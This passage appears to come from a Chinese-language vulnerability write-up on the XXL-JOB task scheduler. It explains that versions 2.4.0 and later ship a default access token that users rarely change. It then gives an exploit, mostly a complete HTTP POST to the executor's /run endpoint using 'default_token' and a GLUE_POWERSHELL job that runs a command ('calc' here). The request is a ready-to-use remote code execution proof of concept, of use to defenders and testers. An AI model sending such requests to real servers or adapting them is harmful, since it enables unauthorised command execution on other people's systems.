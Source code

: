 ```bash
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "calc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

## 3、XxlJob >= 2.4.0 添加了默认 token

作者为了修复该漏洞，添加了默认的 token，但是这就如同 nacos 的 jwt 秘钥，shiro 的默认 key 一样，由于使用者的粗心大意不修改该 key，还是可以被利用  
exp

```bash
POST /run HTTP/1.1
Host: 192.168.226.1:10999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
XXL-JOB-ACCESS-TOKEN: default_token
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "calc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

- - -
